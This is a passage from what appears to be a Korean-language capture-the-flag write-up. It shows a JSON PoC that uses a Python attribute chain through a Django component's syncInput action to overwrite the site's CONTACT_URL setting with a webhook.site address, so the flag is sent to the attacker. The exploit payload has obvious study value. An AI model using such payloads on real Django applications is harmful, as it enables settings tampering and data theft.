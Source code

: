 
![image](https://github.com/user-attachments/assets/081d5987-b37f-4c6e-8314-f03648505e97)
![image](https://github.com/user-attachments/assets/c56b249f-3929-4df8-9693-dd0bb54ac18a)
- 결과는 위와같이 성공적으로 xss가 실행되는것을 알수있다.
- 해당 내용으로 동적으로 실행되고있는 setting라이브러리의 ```CONTACT_URLS```를 오염시켜 공격자 임의의 후킹 url로 flag를 전송받는다.

## PoC
```
{
  "id": "123",
  "data": {
    "task": "",
    "tasks": []
  },
  "checksum": "kQwAqaKP",
  "actionQueue": [
    {
      "type": "syncInput",
      "payload": {
        "name": "__init__.__globals__.sys.modules.django.template.backends.django.settings.CONTACT_URL",
        "value": "https://webhook.site/d706317e-6a35-447f-a4fc-3353fa6f90be"
      },
      "partials": []
    },
    {
      "type": "callMethod",
      "payload": {
        "name": "add"
      },
      "partials": []
    }
  ],
  "epoch": 123,
  "hash": "io4njiFD"
}
```

![image](https://github.com/user-attachments/assets/5711520b-1996-41ef-8f6b-ae9ab83456ab)
![image](https://github.com/user-attachments/assets/ad71f93a-d684-433c-a244-ead528c8b58f)


